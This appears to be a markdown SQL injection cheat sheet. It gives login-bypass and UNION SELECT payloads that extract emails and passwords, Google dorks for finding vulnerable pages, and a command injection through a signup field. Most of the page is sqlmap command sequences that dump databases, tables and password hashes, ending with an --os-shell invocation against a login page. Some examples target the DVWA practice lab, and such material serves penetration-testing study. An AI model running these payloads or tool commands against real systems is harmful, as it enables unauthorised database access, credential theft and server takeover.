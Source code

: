 # SQL Injection


Check for SQLi by adding and single quote or the following: ‘ or 1=1--<space>

http://www.target.com/index.php?val=100’
http://www.target.com/index.php?val=100’ or ‘1’=’1

Username: ' or 1=1--<space>
Password:

Try to login as a specific user.
Username: bob
Password: ' or (1=1 and username = 'bob')--<space>

Database version
Username: +convert(varchar,convert(int,@@version))+
------------------------------------------------------------------------------------------------------

### Google Dorks

inurl:index.php?id=
inurl:gallery.php?id=
inurl:article.php?id=
inurl:pageid=
------------------------------------------------------------------------------------------------------

SQL databases interpret the single quote character as the boundary between code and data. It assumes that
anything following a single quote is code that it needs to run and anything encapsulated by a quote is data.

Example: SELECT * FROM products WHERE price < '100' ORDER BY description;

' and 1=0/@@version;--
' and 1=0/user;--
' having 1'='1
' GROUPED BY productid having '1'='1
' GROUPED BY productid,name having '1'='1
------------------------------------------------------------------------------------------------------

MS-SQL server concatenates numbers, it does not add them. '10' + '0' would equal 100 not 10.

SELECT * FROM table1 WHERE condition1
union all

SELECT * FROM table2 WHERE condition2

OS - @@version
  Server instances - @@servername
    Databases
      Tables
        Columns

SELECT name FROM master..sysdatabases
------------------------------------------------------------------------------------------------------

http://target.com/bookservice/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(0))—
http://target.com/article.aspx?article_id=0+UNION+SELECT+EMAIL,+USERID,+PASSWORD+FROM+USERS
Newsletter signup > Subscribe:  joe@gmail.com & ipconfig > C:\inetpub\wwwroot\Book\test.txt
------------------------------------------------------------------------------------------------------

Use Burp to trap a request. Copy the request to /root/tmp.

sqlmap -r /root/tmp
sqlmap -r /root/tmp -p <parameter> --current-user        Show the user the web server is using to talk to the db
sqlmap -r /root/tmp -p <parameter> -U <user> --passwords
sqlmap -r /root/tmp --dbs                                Search for all dbs
sqlmap -r /root/tmp -D <database> --tables               Show all tables in db
sqlmap -r /root/tmp -D <database> -T <table> --dump      Show all data in table
------------------------------------------------------------------------------------------------------

From: http://niiconsulting.com/checkmate/2014/01/from-sql-injection-to-0wnage-using-sqlmap/

sqlmap.py --url=”http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#”
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee"

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" --dbs

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa --tables

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa -T users --columns

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa -T users
-C user_id,user,password --dump

sqlmap.py --url="http://target.com/login.asp" --data="txtLoginID=shrikant&txtPassword=password&cmdSubmit=Login"
--os-shell
------------------------------------------------------------------------------------------------------
